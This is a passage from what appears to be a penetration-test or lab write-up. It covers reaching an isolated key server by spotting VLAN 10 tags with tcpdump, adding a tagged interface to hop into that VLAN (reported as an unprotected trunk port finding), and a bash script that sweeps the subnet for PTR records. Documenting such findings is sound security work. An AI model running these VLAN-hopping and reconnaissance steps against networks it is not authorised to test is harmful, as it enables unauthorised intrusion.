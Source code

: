 Attempting a route lookup for `172.16.10.1` reveals that the host is unreachable from our network:

```
pwn:~$ ip route show 172.16.10.1
```

We continue by running a packet capture with VLAN decoding enabled to look for any traffic visible to our attacker machine:

```bash
pwn:~$ sudo tcpdump -i ens3 -n -e vlan
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens3, link-type EN10MB (Ethernet), capture size 262144 bytes
14:25:35.396015 52:54:00:00:05:36 > 33:33:00:00:00:02, ethertype 802.1Q (0x8100), length 74: vlan 10, p 0, ethertype IPv6, fe80::5054:ff:fe00:536 > ff02::2: ICMP6, router solicitation, length 16
```

After a few minutes, a 802.1Q frame appears on the wire, tagged with VLAN 10. This aligns with the common network practice of encoding a VLAN tag into the third octet of an IPv4 address; notably the 10 in `172.16.10.1`.

### Network Vulnerability 1: Unprotected trunk ports [V-NET-02]

Next, we create an interface to hop into VLAN 10:

```bash
pwn:~$ sudo ip link add link ens3 name ens3.10 type vlan id 10
pwn:~$ sudo ip addr  add dev ens3.10 172.16.10.200/24
pwn:~$ sudo ip link set dev ens3.10 up
```

The key server is now reachable:

```bash
pwn:~$ ping -c 1 keyserver.internal
PING keyserver.internal (172.16.10.1) 56(84) bytes of data.
64 bytes from 172.16.10.1 (172.16.10.1): icmp_seq=1 ttl=64 time=0.820 ms

--- keyserver.internal ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.820/0.820/0.820/0.000 ms
```

We continue enumerating the network by querying the 172.16.10.0/24 network for PTR records:

```bash
#!/bin/bash
# ptrecon.sh

for i in {0..255}; do
  {
    resp=$(dig +short -x "172.16.10.$i")
    if [ -n "$resp" ]; then
      echo "172.16.10.$i -> $resp"
    fi
  } &
done
wait
```
